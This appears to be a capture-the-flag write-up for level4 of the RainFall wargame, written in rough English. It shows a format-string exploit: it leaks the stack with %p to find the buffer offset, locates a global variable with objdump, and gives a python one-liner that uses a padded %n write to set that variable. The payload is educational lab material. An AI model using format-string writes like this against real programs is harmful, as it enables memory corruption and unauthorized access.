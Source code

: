 We start by opening the binary in [dogbolt](https://dogbolt.org/) here we see that it is the same vulnerability that the previous level.
However this level has a difficulty that the first one didn't have here we must put 16930116 char in `m`,
it is a problem since it exceed pipe capacity or command size.

Ok so will use the same step as the previous level first we will find the address of the buffer we write in:

```
level4@RainFall:~$ ./level4
AAAA %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
AAAA 0xb7ff26b0 0xbffff784 0xb7fd0ff4 (nil) (nil) 0xbffff748 0x804848d 0xbffff540 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025
```

Here the buffer start at %12$p

Ok lets find m `m` with objdump :
objdump :

```
...
08049810 g     O .bss   00000004              m
...
```

address : 08049810
little endian : \x10\x98\x04\x08

And the the tricky part :
How can we put so many characters ?
The simple response is by using the printf fill like
Ok lets tried to use it :

```C
#include <stdio.h>

int main()
{
        printf("%-3c%c\n", 'a','b');
}
```

Output:

```
a  b
```

Ok so now we now to do it lets puts things to gether:
[address][16930116 - 4(address) : %16930112c][the current buffer address]
python -c 'print "\x10\x98\x04\x08" + "%16930112c" + "%12$n"' > /tmp/exploit && cat /tmp/exploit | ./level4
